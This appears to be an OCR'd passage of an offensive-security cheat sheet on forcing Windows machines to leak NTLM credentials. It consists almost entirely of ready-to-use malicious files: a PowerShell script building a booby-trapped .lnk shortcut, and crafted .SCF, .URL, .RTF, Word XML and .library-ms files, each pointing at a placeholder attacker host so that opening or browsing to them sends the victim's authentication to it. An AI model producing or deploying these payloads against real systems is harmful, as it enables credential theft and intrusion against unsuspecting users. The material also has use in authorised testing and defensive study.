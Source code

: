 					$objShell = New-Object -ComObject WScript.Shell
					$lnk = $objShell.CreateShortcut("C:\Malicious.lnk")
					$lnk.TargetPath = "\\<attackerIP>\@threat.png"
					$lnk.WindowStyle = 1
					$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
					$lnk.Description = "Browsing to the dir this file lives in will perform an authentication request."
					$lnk.HotKey = "Ctrl+Alt+O"
					$lnk.Save()
	* <details><summary>`.SCF` (Click to expand)</summary><p>
		* May auto-download via Chrome/IE, needs testing
		* Create an SCF file for distribution;
		
				`\\<attacker_hostname_or_IP>\tools\asdf.scf`
		* Other

				[Shell]
				Command=2
				IconFile=\\<atttacker_hostname_or_IP>\tools\nc.ico
				[Taskbar]
				Command=ToggleDesktop
	* <details><summary>`.URL` (Click to expand)</summary><p>

			[InternetShortcut]
			URL=whatever
			WorkingDirectory=whatever
			IconFile=\\<attacker_hostname_or_IP>\%USERNAME%.icon
			IconIndex=1
	* <details><summary>`.RTF` (Click to expand)</summary><p>
		* `file.rtf`

				{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://<attacker_hostname_or_IP>/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
	* <details><summary>`.XML` (Click to expand)</summary><p>
		* Save word doc as XML file. Update the `href` field to point to attacker address.

				<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
				<?mso-application progid="Word.Document"?>
				<?xml-stylesheet type="text/xsl" href="\\<attacker_IP>\bad.xsl" ?>
		* Office Document with "IncludePicture"
			* Word document with new field added, `IncludePicture`. `\\10.0.0.5\bad.jpg`
* Windows Library Files (.library-ms)
	* <details><summary>`file.library-ms` (Click to expand)</summary><p>

			<?xml version="1.0" encoding="UTF-8"?>
			<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
			  <name>@windows.storage.dll,-34582</name>
			  <version>6</version>
			  <isLibraryPinned>true</isLibraryPinned>
			  <iconReference>imageres.dll,-1003</iconReference>
			  <templateInfo>
			    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
			  </templateInfo>
			  <searchConnectorDescriptionList>
			    <searchConnectorDescription>
			      <isDefaultSaveLocation>true</isDefaultSaveLocation>
			      <isSupported>false</isSupported>
			      <simpleLocation>
			        <url>\\\\workstation@8888\\folder</url>
			      </simpleLocation>
			    </searchConnectorDescription>
			  </searchConnectorDescriptionList>
			</libraryDescription>
